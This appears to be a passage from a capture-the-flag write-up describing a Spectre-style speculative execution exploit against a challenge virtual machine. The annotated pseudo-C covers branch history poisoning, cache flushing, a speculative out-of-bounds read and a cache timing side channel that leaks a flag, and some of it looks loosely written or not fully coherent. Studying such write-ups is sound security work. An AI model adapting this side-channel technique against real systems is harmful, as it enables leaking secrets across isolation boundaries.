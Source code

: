 ### Things to be considered

* Cache eviction
  * We should sure that page of  `the_vm` (referenced as `[rdx]`) is out of cache.
* Branch prediction
  * In the pipeline, fetched instruction followed by `jbe` is sure to be `movzx   eax, byte ptr [rdx+rdi+8]`



### Exploit abstract and comments

```c

// static value
int flush_size = 64;


// make our test area have dirty bit				--- A
void * temp = 0x0;
for (int j = 0; j < 0x100000/flush_size; j++)
	data[temp + j] = 0xffffffff;

// branch history (pAp) poisoning 					--- B
builtin_bc (0x1000 - 4); // jbe instruction will not jump
// repeat 50 times

// flush by reverse order							--- C
for (int i = 0; i < 0x100; i++) 					
{
  void * temp = 0x2000000;
  for (int j = 0; j < 0x1f00000 / flush_size; j++)
    r8 = data[temp - j];
}

// branch history (global) poisoning				--- D
for (int i = 0; i < -1 ; i++); /* jle instruction will not jump */
// repeat 256 times

builtin_time (); // access flag into cache			--- E

// go to branch speculation							--- F
/* use (idx * 0x1000) as array index; */
r15 = 56, r12 = 56-offset;			
r8 = data[(builtin_bc(0x1018) << r15) >> r12];

// cache timing attack 								--- G
int idx = 0;						
for (int i = 0; i < 0x100; i ++)
{
    long temp;
    temp = time ();
    r8 = ((long*)data)[idx];
    temp = time () - temp;
    
    ((long*)data)[i] &= temp;
}


```
